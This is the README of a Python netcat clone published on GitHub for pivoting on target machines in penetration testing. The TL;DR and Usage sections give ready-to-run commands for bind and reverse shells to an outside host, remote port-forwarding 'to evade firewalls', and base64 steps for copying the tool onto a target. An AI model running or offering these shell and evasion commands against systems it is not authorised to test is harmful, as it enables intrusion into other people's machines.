 # netcat

**[Install](#tada-install)** |
**[TL;DR](#coffee-tldr)** |
**[Usage](#computer-usage)** |
**[cytopia sec tools](#lock-cytopia-sec-tools)** |
**[Contributing](#octocat-contributing)** |
**[Disclaimer](#exclamation-disclaimer)** |
**[License](#page_facing_up-license)**

[![](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![PyPI](https://img.shields.io/pypi/v/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Status](https://img.shields.io/pypi/status/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Format](https://img.shields.io/pypi/format/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Implementation](https://img.shields.io/pypi/implementation/netcat)](https://pypi.org/project/netcat/)
[![PyPI - License](https://img.shields.io/pypi/l/netcat)](https://pypi.org/project/netcat/)

[![Build Status](https://github.com/cytopia/netcat/workflows/linting/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=linting)
[![Build Status](https://github.com/cytopia/netcat/workflows/building/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=building)
[![Build Status](https://github.com/cytopia/netcat/workflows/testing/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=testing)


Dependency-less Python 2 and Python 3 compatible implementation of netcat which works on 32bit and 64bit systems to easily pivot your target.

**Motivation**

To have a single tool for older, newer, 32bit and 64bit machines with relevant options (`-e`. `-L` and `-R`) to create bind shells, local and remote port-forwards.


**Todo**

The options `e`, `-n`, `-L`, and `-R` are still under development. See [Usage](#computer-usage) for other available options.


## :tada: Install
```bash
pip install netcat
```


## :coffee: TL;DR

#### Copy to target
```bash
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/netcat/master/bin/netcat.py | base64

# Paste it on the target machine
echo "<BASE64 STRING>" | base64 -d > netcat.py
chmod +x netcat.py
```
#### Summon shells
```bash
# bind shell
netcat.py -l -e '/bin/bash' 8080
```
```bash
# reverse shell
netcat.py -e '/bin/bash' example.com 4444
```
#### Port-forwarding without SSH
```bash
# Make local port available to public interface locally
netcat.py -L 127.0.0.1:3306 192.168.0.1 3306
```
```bash
# Remote port-forwarding to evade firewalls
netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :computer: Usage
```
usage: netcat.py [-Cnuv] [-e cmd] hostname port
       netcat.py [-Cnuv] [-e cmd] -l [hostname] port
       netcat.py [-Cnuv] -L addr:port [hostname] port
       netcat.py [-Cnuv] -R addr:port hostname port
       netcat.py -V, --version
       netcat.py -h, --help


Netcat implementation in Python with connect, listen and forward mode.

positional arguments:
  hostname              Address to listen, forward or connect to
  port                  Port to listen, forward or connect to

mode arguments:
  -l, --listen          Listen mode: Enable listen mode for inbound connects
  -L addr:port, --local addr:port
                        Local forward mode: Specify local <addr>:<port> to which traffic
                        should be forwarded to.
                        Netcat will listen locally (specified by hostname and port) and
                        forward all traffic to the specified value for -L/--local.
  -R addr:port, --remote addr:port
                        Remote forward mode: Specify local <addr>:<port> from which traffic
                        should be forwarded from.
                        Netcat will connect remotely (specified by hostname and port) and
                        for ward all traffic from the specified value for -R/--remote.

optional arguments:
  -e cmd, --exec cmd    Execute shell command. Only works with connect or listen mode.
  -C, --crlf            Send CRLF as line-endings (default: LF)
  -n, --nodns           Do not resolve DNS
  -u, --udp             UDP mode
  -v, --verbose         Be verbose and print info to stderr. Use -vv or -vvv for more verbosity.

misc arguments:
  -h, --help            Show this help message and exit
  -V, --version         Show version information and exit

examples:

  Create bind shell
    netcat.py -l -e '/bin/bash' 8080

  Create reverse shell
    netcat.py -e '/bin/bash' example.com 4444

  Local forward: Make localhost port available to another interface
    netcat.py -L 127.0.0.1:3306 192.168.0.1 3306

  Remote forward: Forward local port to remote server
    netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :lock: [cytopia](https://github.com/cytopia) sec tools

Below is a list of sec tools and docs I am maintaining.

| Name                 | Category             | Language   | Description |
|----------------------|----------------------|------------|-------------|
| **[offsec]**         | Documentation        | Markdown   | Offsec checklist, tools and examples |
| **[header-fuzz]**    | Enumeration          | Bash       | Fuzz HTTP headers |
| **[smtp-user-enum]** | Enumeration          | Python 2+3 | SMTP users enumerator |
| **[urlbuster]**      | Enumeration          | Python 2+3 | Mutable web directory fuzzer |
| **[netcat]**         | Pivoting             | Python 2+3 | Cross-platform netcat |
| **[badchars]**       | Reverse Engineering  | Python 2+3 | Badchar generator |
| **[fuzza]**          | Reverse Engineering  | Python 2+3 | TCP fuzzing tool |

[offsec]: https://github.com/cytopia/offsec
[header-fuzz]: https://github.com/cytopia/header-fuzz
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[netcat]: https://github.com/cytopia/netcat
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza


## :octocat: Contributing

See **[Contributing guidelines](CONTRIBUTING.md)** to help to improve this project.


## :exclamation: Disclaimer

This tool may be used for legal purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.


## :page_facing_up: License

**[MIT License](LICENSE.txt)**

Copyright (c) 2020 **[cytopia](https://github.com/cytopia)**
